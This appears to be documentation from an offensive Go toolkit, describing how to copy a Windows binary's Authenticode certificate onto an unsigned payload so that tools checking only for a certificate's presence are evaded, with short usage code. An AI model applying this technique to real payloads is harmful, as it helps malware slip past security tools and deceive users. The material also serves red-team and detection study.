

# PE Certificate Theft

[<- Back to PE Overview](README.md)

**MITRE ATT&CK:** [T1553.002 - Subvert Trust Controls: Code Signing](https://attack.mitre.org/techniques/T1553/002/)
**Package:** `pe/cert`
**Platform:** Cross-platform (PE byte manipulation)
**Detection:** Low

---

## For Beginners

Windows uses Authenticode signatures to verify that executables come from a trusted publisher. This technique copies the digital certificate from a legitimately signed PE (like a Microsoft binary) onto an unsigned payload. The signature won't verify cryptographically, but many security tools only check for certificate *presence*, not *validity*.

---

## How It Works



**Key detail:** The Security Directory's VirtualAddress field is a *file offset* (not an RVA), which is unique among PE data directories.

---

## Usage

```go
import "github.com/oioio-space/maldev/pe/cert"

// Check if a PE has a certificate
has, _ := cert.Has(`C:\Windows\System32\notepad.exe`)

// Read certificate from signed PE
c, _ := cert.Read(`C:\Windows\System32\notepad.exe`)

// Copy to unsigned payload
cert.Write(`C:\Temp\payload.exe`, c)

// Or copy directly
cert.Copy(`C:\Windows\System32\notepad.exe`, `C:\Temp\payload.exe`)

// Strip certificate from a PE
cert.Strip(`C:\Temp\payload.exe`, "")
```

---

## API Reference

See [pe.md](../../pe.md#pecert----authenticode-certificate-manipulation)
